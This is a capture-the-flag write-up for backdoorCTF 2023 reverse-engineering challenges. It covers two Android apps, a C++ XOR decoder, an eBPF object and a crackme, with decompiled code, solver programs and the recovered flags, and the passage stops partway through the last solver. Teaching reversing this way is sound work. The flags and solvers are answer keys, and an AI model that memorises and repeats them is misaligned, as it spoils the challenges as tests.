# backdoorCTF 2023
## Open sesame

We were given [this](./rev/open_sesame/open_sesame.apk) app to reverse engineer. This app asks for a user and password as input when installed. We will look into it's source code using [jadx](https://github.com/skylot/jadx). It also comes with a gui.
```sh
backdoor/rev/open_sesame on  master [?]
❯ jadx open_sesame.apk
INFO  - loading ...
INFO  - processing ...
ERROR - finished with errors, count: 30
```

The important part is the following inside the `MainActivity.java` file:
```java
    private static final int[] valid_password = {52, AppCompatDelegate.FEATURE_SUPPORT_ACTION_BAR, 49, 98, 97, 98, 97};
    private static final String valid_user = "Jack Ma";
    private Button buttonLogin;
    private EditText editTextPassword;
    private EditText editTextUsername;

    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(R.layout.activity_main);
        this.editTextUsername = (EditText) findViewById(R.id.editTextUsername);
        this.editTextPassword = (EditText) findViewById(R.id.editTextPassword);
        Button button = (Button) findViewById(R.id.buttonLogin);
        this.buttonLogin = button;
        button.setOnClickListener(new View.OnClickListener() { // from class: com.example.open_sesame.MainActivity.1
            @Override // android.view.View.OnClickListener
            public void onClick(View view) {
                MainActivity.this.validateCredentials();
            }
        });
    }

    /* JADX INFO: Access modifiers changed from: private */
    public void validateCredentials() {
        String trim = this.editTextUsername.getText().toString().trim();
        String trim2 = this.editTextPassword.getText().toString().trim();
        if (trim.equals(valid_user) && n4ut1lus(trim2)) {
            String str = "flag{" + flag(Integer.toString(sl4y3r(sh4dy(trim2))), "U|]rURuoU^PoR_FDMo@X]uBUg") + "}";
            return;
        }
        showToast("Invalid credentials. Please try again.");
    }

```

We see that valid_password is already declared inside it. A quick google and we can tell that `AppCompatDelegate.FEATURE_SUPPORT_ACTION_BAR` is a constant in the `AppCompatDelegate` class with value equaling `108`.



This app only shows toast when the user password combination is wrong and only calculates the flag upon entering the correct credentials. We can just take the whole code and write our own [solution](./rev/open_sesame/Sol.java) that will print the flag.

```sh
backdoor/rev/open_sesame on  master [?] via ☕ v21
❯ javac Sol.java

backdoor/rev/open_sesame on  master [?] via ☕ v21
❯ java Sol
flag{aLiBabA_and_forty_thiEveS}
```

flag: `flag{aLiBabA_and_forty_thiEveS}`

---

## Secret door

We were given a [zip](./rev/secret_door/public.zip) file that contained two files. One is the [challenge](./rev/secret_door/chall.out) binary and the other is an encoded binary [data](./rev/secret_door/encoded.bin) file that we need to decode.

```sh
backdoor/rev/secret_door on  master [!?]
❯ tree
.
├── chall.out
├── encoded.bin
└── public.zip
```

A c++ binary can be really annoying to reverse with gidhra. But I will just show some relevant codes that are interesting to the workflow of the binary.

```c
  buf = operator.new[](0x44);
  piVar3 = func_4(buff,argv[1]);
  buf = func_3(piVar3,sus);
  cVar1 = func_2(buf);
  if (cVar1 == '\0') {
    std::operator<<(std::cout,"Wrong door");
  }
  else {
    func_1(*buf,buf[0x10]);
  }
```

Here, we see that there is a new buffer of size 0x44 being created. Then some functions are called with this new buffer and our input argument 1 as parameters.
The check only fails if `func_2` returns 0. Let's peek into func_2 to see what it does.

```c
undefined8 func_2(int *key)

{
  undefined8 uVar1;
  
  if (((((((*key == 0x4e) && (key[1] != (*key == 0xf))) && (key[2] == 0x78)) &&
        ((key[3] != (key[2] == 0x1f) && (key[4] == 0x78)))) &&
       ((key[5] != (key[4] == 0xb) && ((key[6] == 0x74 && (key[6] != (key[7] == 6))))))) &&
      (key[8] == 100)) &&
     ((((key[9] != (key[8] == 0x21) && (key[10] == 99)) && (key[0xb] != (key[10] == 0x22))) &&
      (((key[0xc] == 0x78 && (key[0xd] == key[0xc])) &&
       ((key[0xe] == 0x72 && ((key[0xf] == key[0xe] + 1 && (key[0x10] == 0x21)))))))))) {
    uVar1 = 1;
  }
  else {
    uVar1 = 0;
  }
  return uVar1;
}
```

It is clear that our input should be such that we need to pass this check and then the binary will call another function with the **first** and **0x10th** character of the newly created and modified through some functions. But if we look closely, we know what the 1st and 0x10th characters should be. They are matched against a fixed value inside `func_2`. They are `0x4e` and `0x21` respectively.

Now let's see what happens inside `func_1`

```c

/* func_1(int, int) */

/* DISPLAY WARNING: Type casts are NOT being printed */

undefined8 func_1(int param_1,int param_2)

{
  byte *pbVar1;
  long lVar2;
  long in_FS_OFFSET;
  allocator<char> local_48d;
  uint i;
  istreambuf_iterator local_488 [2];
  allocator *local_480;
  istreambuf_iterator<> local_478 [16];
  allocator local_468 [32];
  basic_string<> local_448 [32];
  basic_ofstream<> local_428 [512];
  basic_string local_228 [520];
  long local_20;
  
  local_20 = *(in_FS_OFFSET + 0x28);
  std::allocator<char>::allocator();
                    /* try { // try from 0010273e to 00102742 has its CatchHandler @ 0010292d */
  std::__cxx11::basic_string<>::basic_string<>(local_448,"encoded.bin",local_468);
  std::allocator<char>::~allocator(local_468);
                    /* try { // try from 0010276b to 0010276f has its CatchHandler @ 001029a5 */
  std::basic_ifstream<>::basic_ifstream(local_228,local_448);
  std::allocator<char>::allocator();
  std::istreambuf_iterator<>::istreambuf_iterator(local_478);
  std::istreambuf_iterator<>::istreambuf_iterator(local_488);
                    /* try { // try from 001027da to 001027de has its CatchHandler @ 0010294e */
  std::vector<>::vector<>(local_468,local_488[0],local_480);
  std::allocator<char>::~allocator(&local_48d);
  for (i = 0; i < 90246; i += 1) {
    if ((i & 1) == 0) {
      pbVar1 = std::vector<>::operator[](local_468,i);
      *pbVar1 = *pbVar1 ^ param_1;
    }
    else {
      pbVar1 = std::vector<>::operator[](local_468,i);
      *pbVar1 = *pbVar1 ^ param_2;
    }
  }
                    /* try { // try from 00102885 to 00102889 has its CatchHandler @ 0010297e */
  std::basic_ofstream<>::basic_ofstream(local_428,1069148);
  std::vector<>::size(local_468);
  lVar2 = std::vector<>::data(local_468);
                    /* try { // try from 001028be to 001028d1 has its CatchHandler @ 00102966 */
  std::basic_ostream<>::write(local_428,lVar2);
  std::basic_ofstream<>::close();
  std::basic_ofstream<>::~basic_ofstream(local_428);
  std::vector<>::~vector(local_468);
  std::basic_ifstream<>::~basic_ifstream(local_228);
  std::__cxx11::basic_string<>::~basic_string(local_448);
  if (local_20 != *(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}


```

Looks like they are opening our encoded file and decoding it with xoring it with the two parameters. Note that no other characters of the buffer created matters. Nor does our key input matter. We should be able to call our function with setting our own parameters inside gdb.

```sh
backdoor/rev/secret_door
❯ la
total 236K
-rwxrwxr-x 1 groot groot  44K Dec 12 11:31 chall.out*
-rw-rw-r-- 1 groot groot  89K Dec 12 11:31 encoded.bin
-rw-r--r-- 1 groot groot  94K Dec 16 18:04 public.zip

backdoor/rev/secret_door
❯ gdb chall.out
gef➤  start
gef➤  call (void)func_1(0x4e, 0x21)
gef➤  q

backdoor/rev/secret_door took 31s
❯ la
total 328K
-rwxrwxr-x 1 groot groot  44K Dec 12 11:31 chall.out*
-rw-rw-r-- 1 groot groot  89K Dec 12 11:31 encoded.bin
-rw-r--r-- 1 groot groot  94K Dec 16 18:04 public.zip
-rw-r--r-- 1 groot groot  89K Dec 25 20:41 the_door.jpg

```

The door looks like this:



flag: `flag{0p3n3d_7h3_s3cr3t_r3d_d00r}`

---

## Baby-ebpf

We were given a [ebpf](https://en.wikipedia.org/wiki/EBPF) elf file. The intended solve for this was to load this ebpf and look at the kernel trace. But I just old-school reversed it with objdump.

```sh
backdoor/rev/babyebpf on  master [!?]
❯ objdump -d babyebpf.o

babyebpf.o:     file format elf64-bpfle


Disassembly of section tp/syscalls/sys_enter_execve:

0000000000000000 <detect_execve>:
   0:   b7 01 00 00 44 04 05 1c         mov %r1,0x1c050444
   8:   63 1a f8 ff 00 00 00 00         stxw [%fp+-8],%r1
  10:   18 01 00 00 19 08 34 01         lddw %r1,0x954094701340819
  18:   00 00 00 00 47 09 54 09
  20:   7b 1a f0 ff 00 00 00 00         stxdw [%fp+-16],%r1
  28:   18 01 00 00 13 57 3e 40         lddw %r1,0x10523251403e5713
  30:   00 00 00 00 51 32 52 10
  38:   7b 1a e8 ff 00 00 00 00         stxdw [%fp+-24],%r1
  40:   18 01 00 00 0b 0d 13 0e         lddw %r1,0x43075a150e130d0b
  48:   00 00 00 00 15 5a 07 43
  50:   7b 1a e0 ff 00 00 00 00         stxdw [%fp+-32],%r1
  58:   b7 01 00 00 00 00 00 00         mov %r1,0

0000000000000060 <LBB0_1>:
  60:   18 02 00 00 00 00 00 00         lddw %r2,0
  68:   00 00 00 00 00 00 00 00
  70:   0f 12 00 00 00 00 00 00         add %r2,%r1
  78:   71 22 00 00 00 00 00 00         ldxb %r2,[%r2+0]
  80:   bf a3 00 00 00 00 00 00         mov %r3,%fp
  88:   07 03 00 00 e0 ff ff ff         add %r3,-32
  90:   0f 13 00 00 00 00 00 00         add %r3,%r1
  98:   71 34 00 00 00 00 00 00         ldxb %r4,[%r3+0]
  a0:   af 42 00 00 00 00 00 00         xor %r2,%r4
  a8:   73 23 00 00 00 00 00 00         stxb [%r3+0],%r2
  b0:   07 01 00 00 01 00 00 00         add %r1,1
  b8:   15 01 01 00 1c 00 00 00         jeq %r1,0x1c,1
  c0:   05 00 f3 ff 00 00 00 00         ja -13

00000000000000c8 <LBB0_2>:
  c8:   bf a3 00 00 00 00 00 00         mov %r3,%fp
  d0:   07 03 00 00 e0 ff ff ff         add %r3,-32
  d8:   18 01 00 00 1c 00 00 00         lddw %r1,0x1c
  e0:   00 00 00 00 00 00 00 00
  e8:   b7 02 00 00 04 00 00 00         mov %r2,4
  f0:   85 00 00 00 06 00 00 00         call 6
  f8:   b7 00 00 00 01 00 00 00         mov %r0,1
 100:   95 00 00 00 00 00 00 00         exit
```

The `detect_execve` function saves some constant values in the memory. `LBB0_1` function uses some memory string as reference as the key for xoring and `LBB0_2` function was used to print the flag out in the kernel trace. I rewrote the algorithm in c.

```c
#include <stdio.h>

int main() {
  char *key = "marinkitagawamarinkitagawama\0";
  char arr[] = {0x0b, 0x0d, 0x13, 0x0e, 0x15, 0x5a, 0x07, 0x43, 0x13, 0x57,
                0x3e, 0x40, 0x51, 0x32, 0x52, 0x10, 0x19, 0x08, 0x34, 0x01,
                0x47, 0x09, 0x54, 0x09, 0x44, 0x04, 0x05, 0x1c};
  int len = sizeof(arr) / sizeof(arr[0]);
  for (int i = 0; i < len; i++) {
    printf("%c", arr[i] ^ key[i]);
  }
}
```

The key string was obtained after i did strings on the ebpf file. That looked sus and it worked out. I am sure it won't be this easy next time. So gotta learn about ebpf.

flag: `flag{1n7r0_70_3bpf_h3h3h3eh}`

---

## Sl4ydroid

We were given an android [app](./rev/sl4ydroid/sl4ydroid.apk) again. This time the app just runs and nothing happens. First I looked at the source code with jadx. The app was loading a custom library.

```java
    public native void damn(String str);

    public native void k2(String str);

    public native void kim(String str);

    public native void nim(String str);

    static {
        System.loadLibrary("sl4ydroid");
    }

    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        TextView textView = (TextView) findViewById(R.id.displayTextView);
        this.displayTextView = textView;
        textView.setVisibility(8);
        TextView textView2 = (TextView) findViewById(R.id.textView);
        this.textView = textView2;
        textView2.setText(getResources().getString(R.string.message));
        kim(getResources().getString(R.string.k1));
        nim(getResources().getString(R.string.n1));
        damn(getResources().getString(R.string.d1));
        k2(getResources().getString(R.string.k21));
    }

```

The app loads the library functions and calls them with the strings defined in the app resource section. The library binary could be found inside `resources/lib` folder. Upon observing the binary for a long time, it happened to me that we should look at the process memory and look for our flag. I used [GameGuardian](https://gameguardian.net/forum/files/) to check the memory of sl4ydroid process in my android phone which by the way has root enabled. To get the flag, I followed the following process:














flag: `flag{RizZZ! Rc4_R3v3r51Ngg_RrR!:}`

---

## Cheat Code

We were given a [binary](./beginner/cheat_code/intro.out) which was very easy to reverse using ghidra. The binary asks for some input (cheat) and then does some xor and conditional check. The conditions were pretty easy to reverse. We also had some part of the flag in plain text. The below c code prints out the flag:

```c
#include <stdio.h>

int main() {
  char f16[16];
  f16[0] = 'f';
  f16[1] = 'l';
  f16[2] = 'a';
  f16[3] = 'g';
  f16[4] = '{';
  f16[5] = 'c';
  f16[6] = '4';
  f16[7] = 'n';
  f16[8] = '\'';
  f16[9] = 't';
  f16[10] = '_';
  f16[11] = 'H';
  f16[12] = 'E';
  f16[13] = 'S';
  f16[14] = 'O';
  f16[15] = 'Y';
  int key[16];
  key[0] = 0x1b;
  key[1] = 0x19;
  key[2] = 0x51;
  key[3] = 0x1e;
  key[4] = 0x24;
  key[5] = 0xd;
  key[6] = 0;
  key[7] = 0xd;
  key[8] = 0x78;
  key[9] = 0x41;
